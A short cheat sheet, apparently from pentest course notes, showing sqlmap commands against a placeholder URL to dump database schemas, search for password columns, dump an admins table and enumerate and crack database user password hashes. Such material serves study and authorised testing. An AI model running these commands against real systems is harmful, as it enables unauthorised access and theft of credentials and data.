 # Advanced Database Enumeration
***
### DB Schema Enumeration (exfiltrate the structure of all the tables)
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --schema
```

### Searching for data (using the LIKE operator)
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --search -T admin
```
#### Search for a column whose name contains "pass" string
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --search -C pass
```

### Password Enumeration and Cracking
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --dump -D root -T admins
```
#### SQLMap has automatic password hashes cracking . The hash cracking attacks are performed in a multi-processing manner, based on the number of cores available on the user's computer.

### DB Users Password Enumeration and Cracking
```bash
$ sqlmap -u "http://www.example.com/?id=1337" --passwords --batch
```